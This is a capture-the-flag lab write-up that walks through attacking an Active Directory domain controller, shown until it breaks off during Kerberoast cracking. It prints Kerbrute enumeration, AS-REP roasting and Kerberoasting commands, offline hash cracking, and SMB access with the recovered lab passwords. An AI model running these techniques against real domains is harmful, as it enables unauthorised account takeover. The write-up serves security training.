



# Welcome to the CTRL+ALT+PWN Write Up for ZTW 2025!

## Table of Contents 

- [Intro](#intro)
- [Enumeration](#enumeration)
    - [Port Scanning](#port-scanning)
    - [Service Enumeration](#service-enumeration)
    - [User Enumeration](#user-enumeration)
- [Initial Access](#initial-access)
    - [AS-REP Roasting](#as-rep-roasting)
    - [Password Cracking](#password-cracking)
    - [Additional Enumeration](#additional-enumeration)
    - [SMB Share Discovery](#smb-share-discovery)
    - [SMB Share Access](#smb-share-access)
    - [Kerberoasting](#kerberoasting)
    - [More Password Cracking](#more-password-cracking)
    - [WinRM Access](#winrm-access)
    - [User Files](#user-files)
- [System Discovery](#system-discovery)
    - [Defense Evasion](#defense-evasion)
    - [Active Directory Enumeration](#active-directory-enumeration)
    - [Discovering Misconfigurations](#discovering-misconfigurations)
- [Privilege Escalation](#privilege-escalation)
    - [Password Resets](#password-resets)
    - [More WinRM Access](#more-winrm-access)
    - [Granting DCSync Rights](#granting-dcsync-rights)
    - [Dumping Secrets](#dumping-secrets)
    - [Passing The Hash](#passing-the-hash)
- [Collecting Loot](#collecting-loot)
    - [Reading The Flag](#reading-the-flag)

## Intro

This writes up will cover the intended path to successfully compromise the CTRL+ALT+PWN prize PC and obtain the correct flag. It should be noted that this is not the only path to successfully compromise the PC and obtain the correct flag.

All four CTRL+ALT+PWN instances are identical in content and intended path, with the only changes being the assigned IP address and MAC address.

## Enumeration

### Port Scanning

After selecting the target host, we can start our enumeration phase by performing an initial port scan with Nmap to discover what ports are accessible to us.

***Nmap Port Scan Results***
```
CTRL+ALT+PWN@ZTW25$ sudo nmap -Pn -T5 -p- --open 192.168.68.70

Starting Nmap 7.95 ( https://nmap.org ) at 2025-02-10 16:48 EST
Nmap scan report for 192.168.68.70
Host is up (0.0055s latency).
Not shown: 65515 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT      STATE SERVICE
53/tcp    open  domain
88/tcp    open  kerberos-sec
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
389/tcp   open  ldap
445/tcp   open  microsoft-ds
464/tcp   open  kpasswd5
593/tcp   open  http-rpc-epmap
636/tcp   open  ldapssl
3268/tcp  open  globalcatLDAP
3269/tcp  open  globalcatLDAPssl
5985/tcp  open  wsman
9389/tcp  open  adws
49664/tcp open  unknown
49668/tcp open  unknown
49748/tcp open  unknown
49749/tcp open  unknown
49756/tcp open  unknown
49760/tcp open  unknown
49769/tcp open  unknown
MAC Address: 00:50:56:2C:A1:C0 (VMware)

Nmap done: 1 IP address (1 host up) scanned in 67.09 seconds
```

### Service Enumeration

Now with a list of open TCP ports, we can now perform our Nmap service scan to potentially identify what applications are behind each of the open ports, and what operating system is running on the target host.

***Nmap Service Scan Results***
```
CTRL+ALT+PWN@ZTW25$ sudo nmap -sC -sV -r -p53,88,135,139,389,445,464,593,636,3268,3269,5985,9389,49664,49668,49748,49749,49756,49760,49769 -T5 192.168.68.70 --reason --open                                         
Starting Nmap 7.95 ( https://nmap.org ) at 2025-02-10 16:52 EST
Nmap scan report for 192.168.68.70
Host is up, received arp-response (0.011s latency).

PORT      STATE SERVICE       REASON          VERSION
53/tcp    open  domain        syn-ack ttl 128 Simple DNS Plus
88/tcp    open  kerberos-sec  syn-ack ttl 128 Microsoft Windows Kerberos (server time: 2025-02-10 21:52:53Z)
135/tcp   open  msrpc         syn-ack ttl 128 Microsoft Windows RPC
139/tcp   open  netbios-ssn   syn-ack ttl 128 Microsoft Windows netbios-ssn
389/tcp   open  ldap          syn-ack ttl 128 Microsoft Windows Active Directory LDAP (Domain: threa7inc.com0., Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds? syn-ack ttl 128
464/tcp   open  kpasswd5?     syn-ack ttl 128
593/tcp   open  ncacn_http    syn-ack ttl 128 Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped    syn-ack ttl 128
3268/tcp  open  ldap          syn-ack ttl 128 Microsoft Windows Active Directory LDAP (Domain: threa7inc.com0., Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped    syn-ack ttl 128
5985/tcp  open  http          syn-ack ttl 128 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
9389/tcp  open  mc-nmf        syn-ack ttl 128 .NET Message Framing
49664/tcp open  msrpc         syn-ack ttl 128 Microsoft Windows RPC
49668/tcp open  msrpc         syn-ack ttl 128 Microsoft Windows RPC
49748/tcp open  ncacn_http    syn-ack ttl 128 Microsoft Windows RPC over HTTP 1.0
49749/tcp open  msrpc         syn-ack ttl 128 Microsoft Windows RPC
49756/tcp open  msrpc         syn-ack ttl 128 Microsoft Windows RPC
49760/tcp open  msrpc         syn-ack ttl 128 Microsoft Windows RPC
49769/tcp open  msrpc         syn-ack ttl 128 Microsoft Windows RPC
MAC Address: 00:50:56:2C:A1:C0 (VMware)
Service Info: Host: WIN-C2R48891MR5; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required
| smb2-time: 
|   date: 2025-02-10T21:53:41
|_  start_date: N/A
|_nbstat: NetBIOS name: WIN-C2R48891MR5, NetBIOS user: <unknown>, NetBIOS MAC: 00:50:56:2c:a1:c0 (VMware)
|_clock-skew: -2s

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 107.52 seconds
```

From the service scan results, we can accurately conclude that the target host is running Windows Server, and is serving as an active directory domain controller for the domain "threa7inc.com".

### User Enumeration

Using the basic host and domain information, we can try to enumerate users on the domain with Kerbrute.

***Kerbrute User Guessing***
```
CTRL+ALT+PWN@ZTW25$ ./kerbrute_linux_amd64 userenum -d threa7inc.com --dc 192.168.68.70 /usr/share/wordlists/seclists/Usernames/xato-net-10-million-usernames.txt -o usernames.txt                                                                                               
                                                                                                                                          
                                                                                                                                          
    __             __               __                                                                                                    
   / /_____  _____/ /_  _______  __/ /____                                                                                                
  / //_/ _ \/ ___/ __ \/ ___/ / / / __/ _ \                                                                                               
 / ,< /  __/ /  / /_/ / /  / /_/ / /_/  __/                                                                                               
/_/|_|\___/_/  /_.___/_/   \__,_/\__/\___/                                                                                                
                                                                                                                                          
Version: v1.0.3 (9dad6e1) - 02/10/25 - Ronnie Flathers @ropnop                                                                            
                                                                                                                                          
2025/02/10 17:04:18 >  Using KDC(s):                                                                                                      
2025/02/10 17:04:18 >   192.168.68.70:88                                                                                                  
                                                                                                                                          
2025/02/10 17:04:18 >  [+] VALID USERNAME:       david@threa7inc.com                                                                      
2025/02/10 17:04:18 >  [+] VALID USERNAME:       john@threa7inc.com                                                                       
2025/02/10 17:04:18 >  [+] VALID USERNAME:       thomas@threa7inc.com                                                                     
2025/02/10 17:04:18 >  [+] VALID USERNAME:       dave@threa7inc.com                                                                       
2025/02/10 17:04:18 >  [+] VALID USERNAME:       james@threa7inc.com                                                                      
2025/02/10 17:04:18 >  [+] VALID USERNAME:       charles@threa7inc.com  

...(trimmed due to length)

```

Saving the Kerbrute output to a file will provide us with a valid users list for additional enumeration or attacks, but before it is useable, we will need to clean the file up and filter out duplicate values.

***User List Clean Up***
```
CTRL+ALT+PWN@ZTW25$ head usernames.txt                                                                                                 
2025/02/10 17:17:34 >  Using KDC(s):                                                                                                      
2025/02/10 17:17:34 >   192.168.68.70:88                                                                                                  
2025/02/10 17:17:34 >  [+] VALID USERNAME:       john@threa7inc.com                                                                       
2025/02/10 17:17:34 >  [+] VALID USERNAME:       david@threa7inc.com                                                                      
2025/02/10 17:17:34 >  [+] VALID USERNAME:       thomas@threa7inc.com                                                                     
2025/02/10 17:17:34 >  [+] VALID USERNAME:       dave@threa7inc.com                                                                       
2025/02/10 17:17:34 >  [+] VALID USERNAME:       james@threa7inc.com                                                                      
2025/02/10 17:17:34 >  [+] VALID USERNAME:       charles@threa7inc.com                                                                    
2025/02/10 17:17:34 >  [+] VALID USERNAME:       hunter@threa7inc.com                                                                     
2025/02/10 17:17:34 >  [+] VALID USERNAME:       carlos@threa7inc.com                                                                     
                                                                                                                                          
CTRL+ALT+PWN@ZTW25$ cat usernames.txt | cut -f 8 -d ' ' |  sed 's/@threa7inc.com//g' | sort | uniq -i | tee usernamescleaned.txt       
                                                                                                                                          
aaron                                                                                                                                     
abigail                                                                                                                                   
adeline
administrator
adrian
aiden
alexander
allison
amelia

...(trimmed due to length)

```

## Initial Access

### AS-REP Roasting

Our next goal will be to gain initial access. To start we will use our list of collected valid users to enumerate if any of their accounts have Kerberos pre-authentication requirements disabled. We will use the "GetNPUsers" script from the Impacket suite.

***Enumerating No-Preauth Users***
```
CTRL+ALT+PWN@ZTW25$ impacket-GetNPUsers -request -no-pass -usersfile usernamescleaned.txt -dc-ip 192.168.68.70 'threa7inc.com/' -output
file preauthtickets.txt                                                                                                                   
                                                                                                                                          
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies                                                                     
                                                                                                                                          
[-] invalid principal syntax                                                                                                              
/usr/share/doc/python3-impacket/examples/GetNPUsers.py:165: DeprecationWarning: datetime.datetime.utcnow() is deprecated and scheduled for
 removal in a future version. Use timezone-aware objects to represent datetimes in UTC: datetime.datetime.now(datetime.UTC).              
  now = datetime.datetime.utcnow() + datetime.timedelta(days=1)                                                                           
[-] User aaron doesn't have UF_DONT_REQUIRE_PREAUTH set                                                                                   
[-] User abigail doesn't have UF_DONT_REQUIRE_PREAUTH set                                                                                 
[-] User adeline doesn't have UF_DONT_REQUIRE_PREAUTH set                                                                                 
[-] User administrator doesn't have UF_DONT_REQUIRE_PREAUTH set                                                                           
[-] User adrian doesn't have UF_DONT_REQUIRE_PREAUTH set                                                                                  
[-] User aiden doesn't have UF_DONT_REQUIRE_PREAUTH set

...(trimmed due to length)

[-] User sophia doesn't have UF_DONT_REQUIRE_PREAUTH set
$krb5asrep$23$sparky@THREA7INC.COM:4e2797029df2d7d20586d13711e93010$28f653e8b6ed66a56363c48d3416ae8a6f0941f16f6a16637809ad4c656fab6a6b45502485dc8de1836230e67eadd3fe272760b4a84a6961839b9708616d1bf44b139902e578d9edab0c33e6df6f1eab671224006020c09a87f97e1ca469e3add3fb8d568f046be00a92edfd7cadc47b6e321963e6ac5d84990916f3f0d0b2de04327ddc26b45e377e4cd0efd6d19c467ccdfc642950a3eedf8bcbb828226c38edc0daaa40b1a6cbf281c3f0663cad0d33970a124940799e76eabd495691773ebb62f79c0645c54456c6a4f3a557531a51d5d81234911dc477db52c22683cb9ca0a72ad57bf59032768d80108d4c
[-] User spider doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User stella doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User superuser doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User thomas doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User weston doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User william doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User wyatt doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User zoey doesn't have UF_DONT_REQUIRE_PREAUTH set
```

### Password Cracking

From the results, we can see the domain user "sparky@threa7inc.com" has the "UF_DONT_REQUIRE_PREAUTH" flag set, and we were able to successfully capture an authentication server response (AS-REP), which contains hashed credential data for sparky.

To recover the password from the response for sparky, we can use John to crack the password.

***Password Cracking with John***
```
CTRL+ALT+PWN@ZTW25$ john --wordlist=/usr/share/wordlists/rockyou.txt preauthtickets.txt

Using default input encoding: UTF-8
Loaded 1 password hash (krb5asrep, Kerberos 5 AS-REP etype 17/18/23 [MD4 HMAC-MD5 RC4 / PBKDF2 HMAC-SHA1 AES 128/128 AVX 4x])
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
1qaz2wsx3edc4rfv5tgb6yhn7ujm8ik9ol0p ($krb5asrep$23$sparky@THREA7INC.COM)     
1g 0:00:00:16 DONE (2025-02-10 17:28) 0.05980g/s 776926p/s 776926c/s 776926C/s 1qball7..1qa2wshy6
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 

CTRL+ALT+PWN@ZTW25$ john  preauthtickets.txt --show     

$krb5asrep$23$sparky@THREA7INC.COM:1qaz2wsx3edc4rfv5tgb6yhn7ujm8ik9ol0p

1 password hash cracked, 0 left
```

### Additional Enumeration

Now that we have a set of valid credentials, we can perform some additional enumeration as sparky.

### SMB Share Discovery

Using smbclient we can check if sparky has any access to SMB shares on the target host.

***Share Enumeration***
```
CTRL+ALT+PWN@ZTW25$ smbclient -U=threa7inc.com/sparky --password=1qaz2wsx3edc4rfv5tgb6yhn7ujm8ik9ol0p -L //192.168.68.70


        Sharename       Type      Comment
        ---------       ----      -------
        ADMIN$          Disk      Remote Admin
        C$              Disk      Default share
        IPC$            IPC       Remote IPC
        NETLOGON        Disk      Logon server share 
        SYSVOL          Disk      Logon server share 
        VictimFiles     Disk      
Reconnecting with SMB1 for workgroup listing.
do_connect: Connection to 192.168.68.70 failed (Error NT_STATUS_RESOURCE_NAME_NOT_FOUND)
Unable to connect with SMB1 -- no workgroup available
```

### SMB Share Access

We can see sparky has access to a share called "VictimFiles", we can use smbclient again to access the share and view or download the contents to our attacking host.

***Share Access***
```
CTRL+ALT+PWN@ZTW25$ smbclient -U=threa7inc.com/sparky --password=1qaz2wsx3edc4rfv5tgb6yhn7ujm8ik9ol0p \\\\192.168.68.70\\VictimFiles

Try "help" to get a list of possible commands.
smb: \> dir
  .                                   D        0  Wed Jan 29 16:35:55 2025
  ..                                DHS        0  Thu Feb  6 18:06:42 2025
  dump.csv                            A     2813  Wed Jan 29 16:28:05 2025
  important.txt                       A      129  Mon Feb 10 17:31:32 2025

                15644159 blocks of size 4096. 11604992 blocks available
smb: \> get dump.csv
getting file \dump.csv of size 2813 as dump.csv (88.6 KiloBytes/sec) (average 88.6 KiloBytes/sec)
smb: \> get important.txt
getting file \important.txt of size 129 as important.txt (3.8 KiloBytes/sec) (average 44.9 KiloBytes/sec)
```

Taking a look at both downloaded files, we find a note from sparky to another user named spider regarding account password strength, and data belonging to one of the victims of the Threa7 ransomware group, ManagedGrid Solutions. These files will likely not serve any purpose and can be disregarded.

***Reading Share Files***
```
CTRL+ALT+PWN@ZTW25$ cat dump.csv                                                                                                
1.  John, Doe, john.doe@managedgridsolutions.com, johndoe123, P@ssw0rd!2023, (555) 123-4567
2.  Jane, Smith, jane.smith@managedgridsolutions.com, janesmith456, S3cureP@ss!2023, (555) 987-6543
3.  Michael, Johnson, michael.johnson@managedgridsolutions.com, mikejohnson789, M1cH@3lP@ss, (555) 234-5678

...(trimmed due to length)
                                                                                                                                          
CTRL+ALT+PWN@ZTW25$ cat important.txt 
Note to self:
Remove dump files ASAP!!!
Note to spider:
You need to strengthen your password!!! A single word is not enough!!!     
```

### Kerberoasting

Moving on, we can use the credentials for sparky to enumerate if any other domain users have valid service principal names (SPN) assigned to them. This will allow us to request a Kerberos service ticket encrypted with their password, which we can crack to recover their password. To determine which users, have a valid SPN, we can use ldapsearch. 

***SPN Enumeration***
```
CTRL+ALT+PWN@ZTW25$ ldapsearch -x -H ldap://192.168.68.70 -D 'threa7inc\sparky' -w '1qaz2wsx3edc4rfv5tgb6yhn7ujm8ik9ol0p' -b "DC=threa7inc,DC=com" | grep -i -C 5 servicePrincipalName: | grep -i -C 5 @threa7inc

dSCorePropagationData: 20250130164124.0Z
--
logonCount: 3
sAMAccountName: spider
sAMAccountType: 805306368
userPrincipalName: spider@threa7inc.com
lockoutTime: 0
servicePrincipalName: WIN-C2R48891MR5/spider.threa7inc.com:60111
objectCategory: CN=Person,CN=Schema,CN=Configuration,DC=threa7inc,DC=com
dSCorePropagationData: 20250130164743.0Z
dSCorePropagationData: 20250130164728.0Z
```

We can see the domain user spider has a valid SPN, we can now request a Kerberos service ticket encrypted with spider's password. To do this we will use the "GetUserSPNs" script from the Impacket suite.

***Requesting Service Ticket***
```
CTRL+ALT+PWN@ZTW25$ impacket-GetUserSPNs -request -dc-ip 192.168.68.70 threa7inc.com/sparky:'1qaz2wsx3edc4rfv5tgb6yhn7ujm8ik9ol0p' -outputfile spnauthtickets.txt

Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

ServicePrincipalName                        Name    MemberOf                                    PasswordLastSet             LastLogon                   Delegation 
------------------------------------------  ------  ------------------------------------------  --------------------------  --------------------------  ----------
WIN-C2R48891MR5/spider.threa7inc.com:60111  spider  CN=Developers,CN=Users,DC=threa7inc,DC=com  2025-02-10 16:16:06.427927  2025-02-07 09:34:43.393644             


[-] CCache file is not found. Skipping...
                                                                                                                                          
CTRL+ALT+PWN@ZTW25$ cat spnauthtickets.txt                                        
$krb5tgs$18$spider$THREA7INC.COM$*threa7inc.com/spider*$fbeaf8d5295d13b3a15d3989$ff22f145a770dcfab7871b0863564b1df0952c0ac96e7e89411b8621b5b5ea0a50cc037e1dbfe888f2591ac11a02ed2b9aad9e673de5b2625027241c693b6b8f25b30e3a1973900c50bbd46ea04791266107a17f2be48cc4828cd5e7fa2ec338be1d84e7184e101f4742a5ab0c3faf7070326fe3174c12ab37cad4b094891516c56317b963babd1c2ae4dc69977fff89a0ca65d056ac74c4354a0dff05f6cc143de235a9bcac6f825a4f27df683ec68f78ce99bc7739ae531b6abb4905ae70f364285c25bcc382e52b6c152253a624a91d6c0f27dd45ee11b4f6e2c6b39359a56f1ca6b3439111409d893addcf23160b265e6c0508efd45fdb7ed323bcfa3b43799893f96b204dcbfeb0f1467509003368bee00ae1c2ecac9a7622876da0ae5b54498ba5ac18b5bfd326b3e062b0eeb920a9889bd7b3b6dbdd7ef87ffcba572be17db569936950b445f2040ab81be8996a12e45b3848bc212c942fd5107c66c1cca8e67ecee06bdcc9a88fd74d759267705af26e2e36873950d3b76e9b088c7d77bbc49da0157c7c1d95410ca6b258d123ee76c8cf597c9a69a356bdf82d813f7253485f6ae40f318320f62932f786472e5fe6ef31dd82ab87363f198558f855a5612e0bc3d80806de697a8aba9f69ffd64ee3be688d6e5f0748c6860608bdff0ce8a6c3719a6d7bd73acc372c73300629389df5bd7de8dee298e3a6115c2fa4de6b45985b76683216ac027fdeee88253569883b16883639811796a7b9307b59eac598b05fa1bb1dcfb747871e66f62db2e31d42850b40d5f9d136226d7e8e1331be6ebcb27ecaccdf3653ca457f53c779898e37f9b33d2bdc3384a34577172e1ef56532812d9543fd8d588e91053b95825e9eff1632f3b21be3e88bc95b07973cd97f265f81eb963af52dc38f2263c0f67dd31f010f6be823dfa19e711aeb0cd9a9b9c60b67ab7fe06cf2558aed29158b5c156f83793a56cc54d4f3402ee9c73b838c72458e8c852f6db1377afb308f46ad60a9615a12a448b6401b663a9b86e68e0e487c855b5538f2fc2c2ac7206d86175aa0fbc79361b31553f0f4146cac20d9576fd4d288b48fd75476984578f76ab0feac5ce55bd9c45085101a9f76db3f58c506ad93cefd7ac3bace69863a946797c01a2fa6479d859e069984bba4165e399a2c97ef323392653a8bab6c67ade33bf09cca7a5063237cce45d0db368bc7cf2c60cc2cddfddcb62477df0abd5e6760cf565cd6f8eae13186f7246c7d3b031c59161a72a5263083029fcdddb196389e52266eaef1c46a925aff23487fd944062b5a18141b7ff85b54a0d41f79d78ba49a33321a4ce3b2f38e0275141f0a862109a3cd0e3461c28a7c0ee3de3c69e17559f1ad58a8e5155b63f31162f6ae9b5d35afdcb3a2ace1b1db03049f341b7a1dc8aa72da7190b7bbb62e082ce389190d2ba143bf3332f5c0a542109d92a061de7b6082c73485d39b6d0ac5e13de38a5a6c6c1cdb252082fc8c29
```

### More Password Cracking

The service ticket for spider, was successfully requested and captured, and now the password for spider can be recovered by cracking the ticket with Hashcat.

***More Password Cracking with Hashcat***
```
CTRL+ALT+PWN@ZTW25$ hashcat -m 19700 -a 0 spnauthtickets.txt /usr/share/wordlists/rockyou.txt                                          
hashcat (v6.2.6) starting                                                                                                                 

...(trimmed due to length)                 

Dictionary cache hit:
* Filename..: /usr/share/wordlists/rockyou.txt
* Passwords.: 14344385
* Bytes.....: 139921507
* Keyspace..: 14344385

...(trimmed due to length)

CTRL+ALT+PWN@ZTW25$ hashcat -m 19700 spnauthtickets.txt --show            
$krb5tgs$18$spider$THREA7INC.COM$fbeaf8d5295d13b3a15d3989$ff22f145a770dcfab7871b0863564b1df0952c0ac96e7e89411b8621b5b5ea0a50cc037e1dbfe888f2591ac11a02ed2b9aad9e673de5b2625027241c693b6b8f25b30e3a1973900c50bbd46ea04791266107a17f2be48cc4828cd5e7fa2ec338be1d84e7184e101f4742a5ab0c3faf7070326fe3174c12ab37cad4b094891516c56317b963babd1c2ae4dc69977fff89a0ca65d056ac74c4354a0dff05f6cc143de235a9bcac6f825a4f27df683ec68f78ce99bc7739ae531b6abb4905ae70f364285c25bcc382e52b6c152253a624a91d6c0f27dd45ee11b4f6e2c6b39359a56f1ca6b3439111409d893addcf23160b265e6c0508efd45fdb7ed323bcfa3b43799893f96b204dcbfeb0f1467509003368bee00ae1c2ecac9a7622876da0ae5b54498ba5ac18b5bfd326b3e062b0eeb920a9889bd7b3b6dbdd7ef87ffcba572be17db569936950b445f2040ab81be8996a12e45b3848bc212c942fd5107c66c1cca8e67ecee06bdcc9a88fd74d759267705af26e2e36873950d3b76e9b088c7d77bbc49da0157c7c1d95410ca6b258d123ee76c8cf597c9a69a356bdf82d813f7253485f6ae40f318320f62932f786472e5fe6ef31dd82ab87363f198558f855a5612e0bc3d80806de697a8aba9f69ffd64ee3be688d6e5f0748c6860608bdff0ce8a6c3719a6d7bd73acc372c73300629389df5bd7de8dee298e3a6115c2fa4de6b45985b76683216ac027fdeee88253569883b16883639811796a7b9307b59eac598b05fa1bb1dcfb747871e66f62db2e31d42850b40d5f9d136226d7e8e1331be6ebcb27ecaccdf3653ca457f53c779898e37f9b33d2bdc3384a34577172e1ef56532812d9543fd8d588e91053b95825e9eff1632f3b21be3e88bc95b07973cd97f265f81eb963af52dc38f2263c0f67dd31f010f6be823dfa19e711aeb0cd9a9b9c60b67ab7fe06cf2558aed29158b5c156f83793a56cc54d4f3402ee9c73b838c72458e8c852f6db1377afb308f46ad60a9615a12a448b6401b663a9b86e68e0e487c855b5538f2fc2c2ac7206d86175aa0fbc79361b31553f0f4146cac20d9576fd4d288b48fd75476984578f76ab0feac5ce55bd9c45085101a9f76db3f58c506ad93cefd7ac3bace69863a946797c01a2fa6479d859e069984bba4165e399a2c97ef323392653a8bab6c67ade33bf09cca7a5063237cce45d0db368bc7cf2c60cc2cddfddcb62477df0abd5e6760cf565cd6f8eae13186f7246c7d3b031c59161a72a5263083029fcdddb196389e52266eaef1c46a925aff23487fd944062b5a18141b7ff85b54a0d41f79d78ba49a33321a4ce3b2f38e0275141f0a862109a3cd0e3461c28a7c0ee3de3c69e17559f1ad58a8e5155b63f31162f6ae9b5d35afdcb3a2ace1b1db03049f341b7a1dc8aa72da7190b7b